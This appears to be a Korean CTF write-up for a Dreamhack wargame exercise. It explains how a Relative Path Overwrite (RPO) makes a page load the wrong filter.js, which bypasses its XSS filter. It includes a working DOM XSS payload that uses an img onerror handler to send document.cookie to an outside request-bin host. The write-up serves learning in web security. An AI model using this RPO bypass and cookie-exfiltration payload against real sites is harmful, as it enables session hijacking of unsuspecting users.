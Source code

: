 Link
: <a href="https://dreamhack.io/lecture/courses/335" target="_blank">Exercise: Relative Path Overwrite</a>

<br>

RPO를 이용해서 하면은 ```filter.js```는 상대경로이다. 

따라서 현재 경로가 만약 ```http:host:port/```에서 ```http:host:port/?page=vuln```을 하면 현재 경로가 최상위 경로이므로 ```http:host:port/filter.js```를 탐색하여 로드한다.

하지만 만약 ```http:host:port/index.php/?page=vuln```이라면? 확인해보면 알 수 있다.

<br>

+ ```http://host1.dreamhack.games:17680/?page=vuln&param=hello```

![image](https://user-images.githubusercontent.com/52172169/164951087-de87bf2f-1ae8-43b6-9c81-543b8970321c.png)

<br>

+ ```http://host1.dreamhack.games:17680/index.php?page=vuln&param=hello``` (위와 동일)

![image](https://user-images.githubusercontent.com/52172169/164951105-1466964f-fd1a-40eb-b877-4c1bbaa79f2c.png)

<br>

+ ```http://host1.dreamhack.games:17680/index.php/?page=vuln&param=hello```

![image](https://user-images.githubusercontent.com/52172169/164951111-2ab14a9a-ddd1-4406-976d-e39a1d86704f.png)

<br>

![image](https://user-images.githubusercontent.com/52172169/164956540-434453c1-c5c1-46d9-a81f-0257ada65c88.png)

<br>

경로에 따라 filter.js가 로드되는 경로가 달라진다. 

원래는 ```http://host1.dreamhack.games:17680/filter.js```이어야 하는데 ```http://host1.dreamhack.games:17680/index.php/filter.js```가 로드됨으로써 필터링을 우회할 수 있다.

따라서 원래는 최상위 경로에 존재하는 filter.js 파일을 찾았으나, 현재 경로가 ```/index.php/```로 바뀜으로써 ```/index.php/```에 존재하는 filter.js 파일을 찾게 되므로 위와 같이 index.php의 코드를 읽어오는 것이다.

<br>

이 문제는 DOM XSS 문제이므로 script 태그를 이용한 공격이 불가능하다고 한다. 따라서 on 핸들러를 이용한 공격을 할 수 있다고 한다.
: ```index.php/?page=vuln&param=<img src=1 onerror=location.href="https://xgezyqb.request.dreamhack.games?cookie="%2bdocument.cookie>```

<br>

innerHTML security_considerations
: <a href="https://developer.mozilla.org/ko/docs/Web/API/Element/innerHTML#security_considerations" target="_blank">developer.mozilla.org/ko/docs/Web/API/Element/innerHTML#security_considerations</a>

**HTML5 는 innerHTML 과 함께 삽입된 ```<script>``` 태그가 실행되지 않도록 지정한다고 한다! 그래서 강의에서도 script 태그를 이용한 공격이 불가능하다고 했던 것.**

<br><br>
<hr style="border: 2px solid;">
<br><br>
